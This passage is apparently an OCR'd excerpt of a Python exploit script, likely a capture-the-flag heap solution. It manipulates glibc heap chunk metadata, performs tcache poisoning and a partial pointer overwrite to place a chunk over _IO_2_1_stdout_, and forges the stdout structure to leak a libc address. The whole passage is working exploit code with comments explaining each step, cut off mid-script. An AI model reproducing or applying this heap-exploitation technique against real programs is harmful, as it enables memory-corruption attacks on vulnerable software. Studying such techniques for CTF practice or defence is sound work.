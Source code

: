 ```python
                    p64(0x21) +
                    # chunk 16 data
                    b'A'*0x18 +
                    # chunk 15 metadata
                    p64(0x21) +
                    # chunk 15 data
                    b'B'*0x18 +
                    # chunk 3 metadata
                    p64(0x431)
            )
            delete(3)
            add(0, 0x18, p16(0x16a0)) # this will point to _IO_2_1_stdout_
            add(16, 0xffffffff+1, b'')

            # tcache poisoning here
            delete(4)
            delete(0)

            # overwrite last nibble main_arena address to _IO_2_1_stdout_ address
            edit(1, b'0'*0x18 +
                    # chunk 16 metadata
                    p64(0x21) +
                    # chunk 16 data
                    b'A'*0x18 +
                    # chunk 15 metadata
                    p64(0x21) +
                    # chunk 15 data
                    b'B'*0x18 +
                    # chunk 3 metadata
                    p64(0x21) +
                    # chunk 3 data
                    b'\x00'*0x18 +
                    # chunk 4 metadata
                    p64(0x21) +
                    # chunk 4 data
                    p16(0xf6a0)
            )
            delete(15)

            # overwrite heap pointer to heap chunk that have _IO_2_1_stdout_ address
            edit(1, b'0'*0x18 +
                    # chunk 16 metadata
                    p64(0x21) +
                    # chunk 16 data
                    b'A'*0x18 +
                    # chunk 15 metadata
                    p64(0x21) +
                    # chunk 15 data
                    p8(0xb0)
            )
            add(4, 0x18, b'X') # popping chunk from fastbin freelist
            add(0, 0x18, b'X') # popping chunk from fastbin freelist

            # payload to overwrite _IO_2_1_stdout_ for leaking libc address
            payload = p64(0x0fbad1800)  
            payload += b'\0' * 0x18 
            payload += b'\0'

            # this will make size index 1 bigger
            add(1, 0, b'')
            add(16, 0xffffffff+1, b'')
            edit(1, payload)
            resp = p.recvline_contains(b'Success')
```